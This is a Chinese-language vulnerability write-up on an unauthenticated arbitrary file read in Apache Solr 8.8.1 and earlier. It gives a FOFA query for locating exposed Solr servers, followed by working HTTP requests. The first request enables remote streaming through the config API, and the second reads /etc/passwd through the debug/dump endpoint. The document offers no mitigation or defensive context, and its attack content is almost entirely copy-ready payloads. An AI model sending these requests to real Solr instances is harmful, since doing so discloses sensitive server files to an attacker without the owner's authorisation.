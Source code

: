 ```yaml
---
title: Apache Solr config 任意文件读取漏洞
---
```


# Apache Solr config 任意文件读取漏洞

## 漏洞描述

Apache Solr 存在任意文件读取漏洞，攻击者可以在未授权的情况下获取目标服务器敏感文件

## 漏洞影响

<a-checkbox checked>Apache Solr <= 8.8.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBUEFDSEUtU29sciI%3D">FOFA: app="APACHE-Solr"</a-button>
</a-checkbox>

## 漏洞复现

访问 Solr Admin 管理员页面

![deaf982e-2ddb-4021-9b5b-21ac946a910a](../../../.vuepress/public/img/deaf982e-2ddb-4021-9b5b-21ac946a910a.png)

获取core的信息

```
/solr/admin/cores?indexInfo=false&wt=json
```

![image-20220307142829893](../../../.vuepress/public/img/image-20220307142829893.png)

发送请求

```
POST /solr/core/config 
Content-Type: application/json

{"set-property":{"requestDispatcher.requestParsers.enableRemoteStreaming":true},"olrkzv64tv":"="}
```

再进行文件读取

```
POST /solr/core/debug/dump?param=ContentStreams 

stream.url=file:///etc/passwd
```

![image-20220307142740665](../../../.vuepress/public/img/image-20220307142740665.png)
